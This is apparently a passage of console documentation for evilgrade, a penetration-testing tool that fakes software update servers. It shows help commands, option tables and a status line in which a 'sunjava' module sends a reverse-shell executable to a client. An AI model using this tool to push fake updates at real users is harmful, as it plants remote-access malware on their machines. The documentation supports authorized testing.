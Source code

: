 ``` console
.---------------------------------------------------------------------------------------------------------------.
| Client         | Module           | Status | Md5,Cmd,File                                                     |
+----------------+------------------+--------+------------------------------------------------------------------+
| 192.168.233.10 | modules::sunjava | send   | d9a28baa883ecf51e41fc626e1d4eed5,'',"./agent/reverseshell.exe"   |
'----------------+------------------+--------+------------------------------------------------------------------'

#######################################

show      - Display information of <object>.

#######################################

show active    - Display active modules in the webserver

#######################################

show modules    - Display implemented modules

#########################################

show options    - Display modules/global options

Example:
-------

evilgrade>show options

Display options:
===============

.-----------------------------------------------------------------------------------.
| Name        | Default   | Description                                             |
+-------------+-----------+---------------------------------------------------------+
| DNSEnable   |         1 | Enable DNS Server ( handle virtual request on modules ) |
| DNSAnswerIp | 127.0.0.1 | Resolve VHost to ip  )                                  |
| DNSPort     |        53 | Listen Name Server port                                 |
| debug       |         1 | Debug mode                                              |
| port        |        80 | Webserver listening port                                |
| sslport     |       443 | Webserver SSL listening port                            |
'-------------+-----------+---------------------------------------------------------'

evilgrade>
evilgrade(notepadplus)>conf vmware
evilgrade(vmware)>show options (without started services)

Display options:
===============

Name = VMware Server
Version = 1.0
Author = ["Francisco Amato < famato +[AT]+ faradaysec.com>"]
Description = ""
VirtualHost = "www.vmware.com"

.----------------------------------------------.
| Name   | Default           | Description     |
+--------+-------------------+-----------------+
| enable |                 1 | Status          |
```